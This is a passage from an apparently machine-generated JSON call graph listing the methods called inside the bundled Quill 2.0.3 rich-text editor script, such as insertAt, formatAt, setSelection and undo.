"target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "unwrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "value"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "index"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compare"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "wrap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emitMount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emitUnmount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emitEmbedUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "moveChildren"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "formatAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "endsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deltaToRenderBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "batchEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isEnabled"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "leaf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "lines"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEachAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "optimize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "takeRecords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateEmbedAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleDragStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deltaToRenderBlocks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createBlock"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "entries"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insertAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "query"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "descendant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "diff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "record"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "redo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "change"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restoreSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "cutoff"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "record"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "compose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "redo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "change"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "undo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "change"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "restoreSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "endsWith"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transformPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "transformPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "caretRangeFromPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "caretPositionFromPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "createRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeNative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizedToRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleCompositionStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getFormat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "updateContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "retain"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "insert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "deleteRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleBeforeInput"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getTargetRanges"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "includes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizeNative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "normalizedToRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleCompositionStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "getSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "replaceText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleArrowKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleNavigationShortcuts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "handleArrowKeys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": "addBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/quill-2.0.3.js", "target": 